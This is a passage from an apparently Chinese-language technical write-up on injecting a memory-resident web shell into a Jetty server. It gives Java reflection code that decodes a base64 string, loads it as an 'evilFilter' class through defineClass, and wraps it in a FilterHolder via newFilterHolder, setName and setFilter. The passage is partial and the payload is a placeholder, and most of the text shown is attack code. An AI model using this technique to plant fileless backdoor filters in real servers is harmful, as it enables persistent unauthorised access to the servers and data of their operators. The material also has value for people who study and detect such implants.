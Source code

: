 ###### defineClass

- 反射调用defineClass还原出base64_str中的evilFilter类

```java
ClassLoader contextClassLoader=Thread.currentThread().getContextClassLoader();
        BASE64Decoder base64Decoder=new BASE64Decoder();
        byte[]bytes=base64Decoder.decodeBuffer("base64_str");
        Method defineClass=ClassLoader.class.getDeclaredMethod("defineClass",byte[].class,int.class,int.class);
        defineClass.setAccessible(true);
        Class evilFilter=(Class)defineClass.invoke(contextClassLoader,bytes,0,bytes.length);
```

###### newFilterHolder

![image-20211219012432285](img/image-20211219012432285.png)

- 参数 source
    - 标识FilterHolder的来源，此处为JAVAX_API

![image-20211219013056371](img/image-20211219013056371.png)

反射调用创建FilterHolder

- FilterHolder 是 Filter 的包装类，每一个Filter与其拦截路径的映射会被封装成 FilterMapping。

```java
ClassLoader classLoader=servletHandler.getClass().getClassLoader();
        Class source=classLoader.loadClass("org.eclipse.jetty.servlet.Source");
        Field JAVAX_API=source.getDeclaredField("JAVAX_API");
        Method method=servletHandler.getClass().getMethod("newFilterHolder",source);
        Object filterHolder=method.invoke(servletHandler,JAVAX_API.get(null));
```

反射调用setName和setFilter

```java
Method setName=filterHolder.getClass().getMethod("setName",String.class);
        setName.invoke(filterHolder,evilFilter.getName());
        Method setFilter=filterHolder.getClass().getMethod("setFilter",Filter.class);
        setFilter.invoke(filterHolder,evilFilter.newInstance());
```

